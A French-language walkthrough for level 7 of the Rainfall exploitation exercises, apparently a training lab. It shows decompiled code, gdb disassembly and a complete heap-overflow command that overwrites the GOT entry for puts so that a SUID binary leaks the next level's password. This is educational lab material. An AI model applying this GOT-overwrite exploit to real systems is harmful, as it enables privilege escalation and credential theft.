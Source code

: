 ### README pour le Niveau 7 du Projet Rainfall

#### Objectif

L'objectif du niveau 7 est d'exploiter une vulnérabilité de débordement de tampon dans un programme pour obtenir le mot de passe du niveau suivant. Vous devrez comprendre le fonctionnement du programme, identifier la vulnérabilité et construire un payload pour exploiter cette faille.

### 1. Analyser le Programme

Le programme est un exécutable avec les droits `SUID` qui lit un fichier de mot de passe et utilise des fonctions vulnérables comme `strcpy`. Voici le code désassemblé du programme :

```c
int m() {
    time_t v0;
    v0 = time(0);
    return printf("%s - %d\n", c, v0);
}

int __cdecl main(int argc, const char **argv, const char **envp) {
    FILE *v3;
    void *v5;
    void *v6;

    v6 = malloc(8u);
    *(_DWORD *)v6 = 1;
    *((_DWORD *)v6 + 1) = malloc(8u);
    v5 = malloc(8u);
    *(_DWORD *)v5 = 2;
    *((_DWORD *)v5 + 1) = malloc(8u);
    strcpy(*((char **)v6 + 1), argv[1]);
    strcpy(*((char **)v5 + 1), argv[2]);
    v3 = fopen("/home/user/level8/.pass", "r");
    fgets(c, 68, v3);
    puts("~~");
    return 0;
}
```

### 2. Comprendre le Global Offset Table (GOT)

Le Global Offset Table (GOT) est une structure de données utilisée par les programmes pour stocker les adresses des fonctions externes utilisées. Lorsqu'une fonction est appelée pour la première fois, son adresse est résolue et stockée dans le GOT. Les appels suivants utilisent cette adresse stockée pour accéder directement à la fonction.

**Pourquoi c'est important ?**

En écrasant les entrées du GOT, nous pouvons rediriger l'exécution du programme vers une fonction différente. Cela nous permet de détourner le flux d'exécution pour atteindre notre objectif.

### 3. Utiliser `gdb` pour l'Analyse

Pour commencer l'analyse, nous utilisons `gdb` (GNU Debugger) pour examiner le programme.

#### Étapes avec `gdb`

1. **Lancer `gdb` sur le binaire**

```bash
gdb -q level7
```

2. **Lister les fonctions disponibles**

```gdb
(gdb) info functions
```

Vous verrez les adresses des fonctions importantes :
```
0x080484f4  m
0x08048521  main
```

3. **Examiner la fonction `main`**

```gdb
(gdb) disas main
```

Le code désassemblé de `main` montre les appels à `malloc` et `strcpy` :

```assembly
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
```

4. **Examiner la fonction `m`**

```gdb
(gdb) disas m
```

Le code désassemblé de `m` montre qu'il utilise `printf` pour afficher le contenu de la variable globale `c`.

```assembly
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl  

 $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
```

### 4. Préparer et Exécuter le Payload

Nous utiliserons `strcpy` pour exploiter le débordement de tampon et écraser des adresses importantes en mémoire.

#### Identifier les Adresses Clés

1. **Obtenir l'adresse de la fonction `m`**

```gdb
(gdb) disas m
```

   - Adresse de `m` : `0x080484f4`

2. **Identifier l'adresse du GOT pour `puts`**

```gdb
(gdb) x/wx 0x8049928
```

   - Adresse du GOT pour `puts` : `0x08049928`

#### Préparer le Payload

1. **Préparer les Adresses en Little Endian**

   - Adresse de `m` : `0x080484f4` -> `\xf4\x84\x04\x08`
   - Adresse du GOT pour `puts` : `0x08049928` -> `\x28\x99\x04\x08`

2. **Construire les Arguments**

   - Premier Argument : Remplir les premiers octets avec `A` puis ajouter l'adresse du GOT pour `puts`.
   - Deuxième Argument : Ajouter l'adresse de `m`.

Voici la commande complète :

```bash
./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```

#### Explication du Payload

1. **Premier Argument**
   - `'A'*20` : Remplit les premiers 20 octets avec `A`.
   - `\x28\x99\x04\x08` : Adresse du GOT pour `puts` en Little Endian.

2. **Deuxième Argument**
   - `\xf4\x84\x04\x08` : Adresse de `m` en Little Endian.

En exécutant cette commande, nous exploitons le débordement de tampon pour écraser le pointeur de fonction et rediriger l'exécution vers `m`, qui affichera le contenu de la variable globale `c` contenant le mot de passe.

### Conclusion

Ce niveau montre comment exploiter une vulnérabilité de débordement de tampon pour rediriger l'exécution d'un programme et obtenir des informations sensibles. En utilisant `gdb` et en comprenant le Global Offset Table (GOT), nous avons pu identifier et exploiter une faille critique.

Les compétences et outils utilisés ici sont essentiels pour l'analyse et l'exploitation des vulnérabilités dans la sécurité informatique. En suivant ces étapes, vous pouvez réussir le niveau 7 et progresser dans le projet Rainfall.